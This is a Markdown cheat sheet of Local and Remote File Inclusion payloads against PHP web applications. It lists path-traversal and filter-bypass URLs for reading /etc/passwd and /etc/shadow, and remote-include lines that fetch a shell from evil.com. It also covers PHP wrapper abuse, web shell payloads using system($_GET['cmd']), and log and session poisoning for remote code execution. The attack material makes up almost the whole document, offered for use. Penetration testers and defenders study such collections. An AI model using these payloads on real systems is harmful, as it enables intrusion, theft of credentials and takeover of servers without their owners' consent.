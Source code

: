 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

Interesting files to check out :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## Basic LFI
```
http://example.com/index.php?page=../../../etc/passwd

Null byte
http://example.com/index.php?page=../../../etc/passwd%00

Double encoding
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

Path truncation
http://example.com/index.php?page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=../../../../[…]../../../../../etc/passwd

Filter bypass
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
```

## Basic RFI (null byte, double encoding and other tricks)
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

## LFI / RFI Wrappers

LFI Wrapper rot13 and base64 - php://filter case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

can be chained with a compression wrapper
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```


LFI Wrapper ZIP
```python
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper DATA with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

Bonus XSS    
XSS via RFI/LFI with "<svg onload=alert(1)>" payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## LFI to RCE via /proc/*/fd
1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD
with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
/proc/self/environ can also be used


## LFI to RCE via Upload
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
You can injected the <?php system($_GET['c']); ?> into the metadata

## LFI to RCE via Phpinfo()
https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)


## LFI to RCE via input:// stream
Specify your payload in the POST parameters
```
http://example.com/index.php?page=php://input
POST DATA: <? system('id'); ?>
```

## LFI to RCE via controlled log file
Just append your PHP code into the log file and include it.
```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

## LFI to RCE via PHP Sessions
Check if the website use PHP Session (PHPSESSID)
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] files
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to <?php system('cat /etc/passwd');?>
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Use the LFI to include the PHP session file
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


## Checklist - Common ways of upgrading from LFI to RCE
```
Using file upload forms/functions
Using the PHP wrapper expect://command
Using the PHP wrapper php://file
Using the PHP wrapper php://filter
Using PHP input:// stream
Using data://text/plain;base64,command
Using /proc/self/environ
Using /proc/self/fd
Using PHP Session
Using log files with controllable input like:
  /var/log/apache/access.log
  /var/log/apache/error.log
  /var/log/vsftpd.log
  /var/log/sshd.log
  /var/log/mail
```

## Thanks to
* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI ](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
